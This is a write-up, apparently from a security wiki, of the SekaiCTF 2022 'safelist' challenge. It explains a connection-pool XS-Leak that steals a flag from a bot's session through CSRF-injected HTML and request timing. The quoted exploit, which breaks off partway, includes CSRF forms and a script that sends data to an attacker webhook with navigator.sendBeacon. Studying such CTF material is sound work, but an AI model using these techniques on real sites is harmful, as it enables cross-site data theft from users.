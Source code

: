 # Connection Pool Example



In the [**Sekaictf2022 - safelist**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/safelist/solution) challenge, [**@Strellic\_**](https://twitter.com/Strellic\_) gives an example of how to use a **variation** of the **Connection Pool** technique to perform a **XS-Leak**.

In this challenge, the goal is to exfiltrate a flag that will appear in the bots web session inside a post. These are the assets the attacker has:

* The **bot** will **visit** a **URL** given by the attacker
* The attacker can **inject HTML** in the page (but no JS, dompurify is used) abusing a **CSRF** making the **bot create a post** with that HTML.
* The attacker can abuse a CSRF to make the **bot** **delete** the **first** **post** inside the web.
* Because the **posts** are ordered **alphabetically**, when the **first post is deleted**, if the **HTML** content of the attacker is **loaded** means that it was **alphabetically before the flag**.

Therefore, to steal the flag, the solution proposed by @Strellyc\_ is to, **for each char to test** make the bot:

* Create a **new post** that **starts** with the known part of the **flag** and several **img** **loads**.
* **Delete** the **post** in position **0**.
* Block 255 sockets.
* Load the page with the posts
* Perform 5 random requests to a site (example.com in this case) and measure the time this takes.

{% hint style="warning" %}
If the **deleted** post was the **flag**, this means that all the **images** **injected** in the HTML are going to be **fighting** with the **5 random requests** for that **unblocked** socket. Which means that the time measured is going to be bigger than the other scenario.

If the **deleted** post was the **HTML**, the **5 random requests** will be **faster** because they don't need to fight for that socket with the HTML injected.
{% endhint %}

### Exploit 1

This is the exploit code, taken from [https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html](https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html):

```html
<!-- Form to inject HTML code in the bots page -->
<form method="POST" action="https://safelist.ctf.sekai.team/create" id="create" target="_blank">
    <input type="text" name="text" />
    <input type="submit" />
</form>

<!-- Form to delete the first entry -->
<form method="POST" action="https://safelist.ctf.sekai.team/remove" id="remove" target="_blank">
    <input type="text" name="index" value="0" />
    <input type="submit" />
</form>

<script>
    // Attacker listening
    const WEBHOOK = "https://WEBHOOK.com/";
    // Send data to attacker
    const log = (id, data) => {
        let payload = JSON.stringify({ known, alphabet, data });
        console.log(id, payload);
        navigator.sendBeacon(WEBHOOK + "?" + id, payload); 
    }
    
```
